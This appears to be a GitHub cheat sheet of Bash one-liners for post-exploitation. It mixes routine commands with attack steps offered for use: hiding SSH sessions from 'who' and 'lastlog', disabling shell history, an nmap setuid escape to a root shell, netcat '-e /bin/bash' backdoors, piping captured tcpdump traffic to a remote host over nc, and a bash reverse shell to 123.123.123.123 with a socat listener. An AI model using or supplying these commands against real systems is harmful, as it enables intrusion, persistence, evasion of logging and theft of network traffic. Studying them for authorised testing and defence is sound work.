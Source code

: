 # Bash Commands for Post Exploitation

One liners
-----------

**Resolve a list of hostnames to IP addresses**
```bash
awk < hostnames.txt '{ system("resolveip -s " $1) }'
```

**IIS 6.0 IP Disclosure**
```bash
curl -l -O -H "Host:" "example.com"
```

**Connect to SSL websites**
```bash
openssl s_client -connect example.com:443
```

**Convert base64 to text**
```bash
echo 'base64string' | base64 -d   (Use -D on OSX)
```

**Decode ASCII shellcode**
```bash
echo -e *shellcode hex string*   (may need to use -i to ignore bad chars)
```

**Enumerate DNS of Class C**
```bash
for ip in $(seq 1 254); do; host 10.1.1.$ip | grep "name pointer"; done
```

**SSH to box and hide from "who" and "lastlog"**
```bash
ssh andrew@10.1.1.1 -T /bin/bash
```

**Prevent terminal logging**
```bash
unset HISTFILE
```

**Add immutable attribute to a unix file**
```bash
chattr +i *file*
```

**SSH into host2 through host1**
```bash
ssh -o "proxycommand ssh -W host2 host1" host2
```

**Nmap setuid privesc**
```bash
nmap --script <(echo 'os.execute("/bin/sh")')
nmap --interactive     (for older versions)
```

**Transfer files through SSH**
```bash
ssh test@10.1.1.1 "cat test.tar.gz" > test.tar.gz
```

**Internal port redirect for bypassing services**
```bash 
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 4444
```

**Enable forwarding on the fly**
```bash
sysctl -w net.ipv4.ip_forward=1
```

**Kill with USR1 developer defined signal**
```bash
kill -USR1 <pid>
```

**Pull IP addresses from a file**
```bash
grep -E -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'
```

**Sniff traffic with tcpdump and send to remote tcp socket**
```bash
tcpdump -w - | nc -v 8.8.8.8 9999
```

**Recursively search for text contained in files within a directory**
```bash
zcat -rf ./* | grep "searchstring"
```

**Recursively search for files with the specified word within them**
*Submitted by cat on Google Fourms*
```bash
ls -a | find | grep -i "string"
```

**Netcat backdoor**
*Does not work with most distro's default version of netcat (most do not define ENABLE_GAPING_SECURITY_HOLE which turns on -e)*
```bash
nc -e /bin/bash *remotecomputer* *port*
OR
nc -e /bin/bash -lp *port*
```

**View CPU Information**
```bash
cat /proc/cpuinfo
```

**Bash reverse shell** (@icleus)
Works on all distrobutions where egress filtering is not in place / quiet open, use this to reverse connect to your lsitening host.

```bash
bash -i>& /dev/tcp/123.123.123.123/1234 0>&1 &
```

I find this best works with a socat listener due to the readline support.

```bash
socat readline TCP-LISTEN:1234
```


Credits
-----------
Credits to @TheAndrewBalls for posting some awsome one liners (the hidden SSH example and the DNS enumeration are both his contributions)

